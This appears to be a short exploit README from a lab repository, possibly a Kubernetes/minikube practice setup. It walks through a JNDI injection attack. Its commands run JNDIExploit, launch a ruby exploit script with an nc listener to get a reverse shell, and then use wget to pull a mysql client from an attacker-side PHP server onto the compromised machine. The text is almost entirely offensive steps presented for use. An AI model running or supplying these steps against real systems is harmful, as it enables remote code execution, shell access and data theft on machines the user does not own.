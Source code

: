 
Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./script/exploit.rb & nc -lv 3000
```

you should get a shell on the machine

## how to execute mysql command


we need mysql client

let's download it on my side

launch a php server next to it with the command

```
php -S 0.0.0.0:8000
```

then from the server where you have a reverse shell download the tool with

```
wget host.minikube.internal:8000/mysql
```

execute the client

